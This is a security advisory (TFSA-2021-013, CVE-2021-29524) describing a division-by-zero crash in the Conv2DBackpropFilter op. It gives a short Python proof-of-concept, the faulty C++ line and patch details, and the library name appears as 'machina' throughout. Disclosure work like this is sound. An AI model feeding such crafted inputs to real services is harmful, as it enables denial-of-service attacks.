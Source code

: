 ## TFSA-2021-013: Division by 0 in `Conv2DBackpropFilter`

### CVE Number
CVE-2021-29524

### Impact
An attacker can trigger a division by 0 in `tf.raw_ops.Conv2DBackpropFilter`:

```python
import machina as tf

input_tensor = tf.constant([], shape=[0, 0, 1, 0], dtype=tf.float32)
filter_sizes = tf.constant([1, 1, 1, 1], shape=[4], dtype=tf.int32)
out_backprop = tf.constant([], shape=[0, 0, 1, 1], dtype=tf.float32)

tf.raw_ops.Conv2DBackpropFilter(input=input_tensor, filter_sizes=filter_sizes,
                                out_backprop=out_backprop,
                                strides=[1, 66, 18, 1], use_cudnn_on_gpu=True,
                                padding='SAME', explicit_paddings=[],
                                data_format='NHWC', dilations=[1, 1, 1, 1])
```

This is because the
[implementation](https://github.com/machina/machina/blob/496c2630e51c1a478f095b084329acedb253db6b/machina/core/kernels/conv_grad_shape_utils.cc#L130) does a modulus operation where the divisor is controlled by the caller:

```cc
  if (dims->in_depth % filter_shape.dim_size(num_dims - 2)) { ... }
```

### Patches
We have patched the issue in GitHub commit
[fca9874a9b42a2134f907d2fb46ab774a831404a](https://github.com/machina/machina/commit/fca9874a9b42a2134f907d2fb46ab774a831404a).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/machina/machina/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
